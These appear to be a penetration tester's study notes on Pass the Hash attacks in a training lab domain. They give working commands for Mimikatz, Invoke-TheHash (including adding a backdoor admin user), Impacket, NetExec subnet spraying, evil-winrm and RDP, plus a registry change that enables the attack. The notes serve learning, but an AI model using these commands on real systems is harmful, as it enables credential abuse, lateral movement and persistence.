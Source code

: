 - A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique **==where an attacker uses a password hash instead of the plain text password for authentication.==** 
- Let's assume we obtain the password hash (`64F12CDDAA88057E06A81B54E73B949B`) for the account `julio` from the domain `inlanefreight.htb`. Let's see how we can perform Pass the Hash attacks from Windows and Linux machines.

# Introduction to Windows NTLM
---
- Microsoft's [Windows New Technology LAN Manager (NTLM)](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview) is a **set of security protocols that authenticates users' identities** while also protecting the integrity and confidentiality of their data. 
- **==NTLM is a single sign-on (SSO) solution that uses a challenge-response protocol to verify the user's identity without having them provide a password.==**
- With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password.
- We call this a `Pass the Hash (PtH) Attack`.

# Pass the Hash with Mimikatz (Windows)
---
- Mimikatz has a module named **==`sekurlsa::pth`==** that allows us to perform a **Pass the Hash attack by starting a process using the hash** of the user's password. 
- To use this module, we will need the following:
	- `/user` - The user name we want to impersonate.
	- `/rc4` or `/NTLM` - NTLM hash of the user's password.
	- `/domain` - Domain the user to impersonate belongs to. In the case of a **local user account, we can use the computer name, localhost, or a dot (.).**
	- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

- Pass the Hash from Windows Using Mimikatz:
	- `mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit`

# Pass the Hash with PowerShell Invoke-TheHash (Windows)
---
- Another tool we can use to perform **Pass the Hash attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash).**
- This tool is a collection of **PowerShell functions for performing Pass the Hash** attacks with WMI and SMB.
- Local administrator privileges are not required client-side, **==but the user and hash we use to authenticate need to have administrative rights==** on the target computer.
- When using `Invoke-TheHash`, we have two options: **SMB or WMI command** execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:
	- `Target` - Hostname or IP address of the target.
	- `Username` - Username to use for authentication.
	- `Domain` - Domain to use for authentication. This **parameter is unnecessary with local accounts** or when using the @domain after the username.
	- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
	- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

- Invoke-TheHash with SMB:
	- `powershell -ep bypass`
	- `Import-Module .\Invoke-TheHash.psd1`
	- `Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose`
- Instead of providing the IP address, which is `172.16.1.10`, **we can use the machine name `DC01`** (either would work).
- We can **also get a reverse shell connection in the target machine.**:
	- ```
```
Invoke-SMBExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "RevShell_com_PowerShell3_B64_Encoded"
```

# Pass the Hash with Impacket (Linux)
---
- We will perform command execution on the target machine using `PsExec`.
-  Pass the Hash with Impacket PsExec:
	- `impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`

# Pass the Hash with NetExec (Linux)
---
- We can use NetExec to try to authenticate to some or **==all hosts in a network looking for one host where we can authenticate successfully as a local admin==**

- Pass the Hash with NetExec:
	- `netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453`
- If we want to perform the same actions but attempt to authenticate to each host in a subnet using the **==local administrator password hash, we could add `--local-auth` to our command.==** 
- This method is helpful if we obtain a local administrator hash by ==**dumping the** **local SAM database**== on one host and want to **check how many (if any)** other hosts we can access due to ==**local admin password re-use.**==
- If we see `Pwn3d!`, it means that the user is a local administrator on the target computer.

- NetExec - Command Execution:
	- `netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami`

# Pass the Hash with evil-winrm (Linux)
---
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) is another tool we can use to **authenticate using the Pass the Hash attack with PowerShell remoting.**
- If **==SMB is blocked or we don't have administrative rights==**, we can use this **alternative protocol** to connect to the target machine.

- Pass the Hash with evil-winrm:
	- `evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453`
- **Note:** When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

---
- There are a few caveats to this attack:
	- `Restricted Admin Mode`, which is disabled by default, should be **enabled on the target host; otherwise, you will be presented with the following error:**
		- ![[Pasted image 20250703055355.png]]
- **==Enable Restricted Admin Mode to allow PtH:==**
	- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- Pass the Hash using RDP:
	- `xfreerdp3  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B`

# UAC limits Pass the Hash for local accounts
---
- UAC (User Account Control) **limits local users' ability to perform remote administration operations.**
- When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0,
	- It means that the **built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks.** Setting it to 1 allows the other local admins as well.
- These settings are **ONLY for local administrative accounts**. If we get access to a **==domain account with administrative rights on a computer, we can still use Pass the Hash with that computer.==**